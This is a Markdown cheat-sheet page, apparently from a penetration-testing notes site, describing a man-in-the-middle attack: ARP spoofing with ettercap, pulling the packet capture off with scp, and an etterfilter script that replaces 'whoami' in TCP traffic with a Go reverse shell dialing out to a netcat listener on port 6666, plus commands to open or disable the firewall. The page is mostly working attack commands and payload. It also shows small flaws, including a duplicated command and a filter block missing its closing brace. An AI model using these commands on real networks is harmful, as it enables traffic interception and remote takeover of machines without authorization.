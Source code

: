 ```yaml
---
title: Man in the Middle (MITM) Attack
desc:
tags: [ARP, Ettercap, Man in the Middle, MITM, Network, Reverse Shell, WiFi, Wireshark]
alts: [Reverse-Shell]
render_with_liquid: false
---
```


## 1. Establish MITM

1. **Use ARP Spoofing**

    In the target machine,

    ```sh
    # -T: text only GUI
    # -M: man-in-the-middle attack
    # -w: write .pcap file
    ettercap -T -i eth1 -M arp -w /tmp/ettercap.pcap
    ettercap -T -i eth1 -M arp -w /tmp/ettercap.pcap
    ```

    In your local machine, transfer the ettercap's output file.

    ```sh
    scp victim@<target-ip>:/tmp/ettercap.pcap .

    # Investigate the file
    wireshark ettercap.pcap
    ```

<br />

## 2. Gain Access to a Shell

1. **Reverse Shell Via ARP Spoofing**

    In the target machine, create "whoami.ecf" using Golang.

    ```golang
    // whoami.ecf
    if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami")) {
        log(DATA.data, "/root/ettercap.log");
        replace("whoami", "echo 'package main;import\"os/exec\";import\"net\";func main(){c,_:=net.Dial(\"tcp\",\"<target-eth1-ip>:6666\");cmd:=exec.Command(\"/bin/sh\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go &");
        msg("###### ETTERFILTER: substituted 'whoami' with reverse shell.  ######\n");
    ```

    Compile the file using "etterfilter"

    ```sh
    # Compile the file using etterfilter
    etterfilter whoami.ecf -o whoami.ef
    ```

    Open listener on background

    ```sh
    nc -lvnp 6666 &
    ```

    Disable Firewall for incoming connection

    ```sh
    ufw allow in on eth1 from <target-ip> to <target-eth1-ip> port 6666 proto tcp
    # or
    ufw disable
    ```

    Execute "ettercap" command.

    ```sh
    # Run ettercap
    # -F: Filter
    ettercap -T -i eth1 -M arp -F whoami.ef
    ```

    After a while, you should see "Connection received on <target-ip>" in the outputs.  
    If so, quit "ettercap" with "q" and switch the opening listener to foreground with "fg".  
    Then you can interecat with the target shell.
